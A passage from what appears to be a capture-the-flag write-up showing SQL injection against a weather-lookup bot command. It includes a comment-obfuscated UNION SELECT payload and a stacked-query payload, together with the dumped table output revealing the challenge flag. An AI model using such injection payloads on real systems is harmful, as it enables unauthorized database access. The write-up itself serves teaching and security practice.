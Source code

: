 ```
+------------------------------+----------------------+---------------+
```

We can see that there is another column that we don't see normaly called `temps`.

Lets see whats in.

```
!meteo '/**/or/**/1=1)/**/union/**/select/**/temps,2,3/**/from/**/meteo/*

|     id     |       capital        |  temperature  |
+------------+----------------------+---------------+
|     0      |      Amsterdam       |       2       |
|     1      |       Athènes        |       16      |
|     2      |       Belgrade       |       5       |
|     3      |        Berlin        |       0       |
|     4      |        Berne         |       16      |
|     5      |      Bratislava      |       12      |
|     6      |      Bruxelles       |       8       |
|     7      |       Bucarest       |       1       |
|     8      |       Budapest       |       3       |
|     9      |       Chisinau       |       11      |
|     10     |      Copenhague      |       25      |
|     11     |        Dublin        |       28      |
|     12     |       Helsinki       |       23      |
|     13     |         Kiev         |       18      |
|     14     |       Valette        |       23      |
|     15     |       Lisbonne       |       20      |
|     16     |      Ljubljana       |       25      |
|     17     |       Londres        |       24      |
|     18     |      Luxembourg      |       28      |
|     19     |        Madrid        |       14      |
|     44     | 109pUjkEezHhFGrCpHIg | MCTF{11K3_0r_ |
| Ensoleillé |          2           |       3       |
| N07_11K3}  |          2           |       3       |
|  Nuageux   |          2           |       3       |
|  Orageux   |          2           |       3       |
|  Pluvieux  |          2           |       3       |
+------------+----------------------+---------------+
```

And here we have the rest of the flag `N07_11K3}`.

Whats funny about blind injection is that challengers are often really inventive. In fact, this payload was enough

```
!meteo madrid'); SELECT * from meteo --

| id |       capital        |  temperature  |   temps    |
+----+----------------------+---------------+------------+
| 19 |        Madrid        |       14      |            |
| 0  |      Amsterdam       |       2       |  Nuageux   |
| 1  |       Athènes        |       16      | Ensoleillé |
| 2  |       Belgrade       |       5       |  Pluvieux  |
| 3  |        Berlin        |       0       |  Orageux   |
| 4  |        Berne         |       16      |  Nuageux   |
| 5  |      Bratislava      |       12      | Ensoleillé |
| 6  |      Bruxelles       |       8       |  Pluvieux  |
| 7  |       Bucarest       |       1       |  Orageux   |
| 8  |       Budapest       |       3       |  Nuageux   |
| 9  |       Chisinau       |       11      | Ensoleillé |
| 10 |      Copenhague      |       25      |  Pluvieux  |
| 11 |        Dublin        |       28      |  Orageux   |
| 12 |       Helsinki       |       23      |  Nuageux   |
| 13 |         Kiev         |       18      | Ensoleillé |
```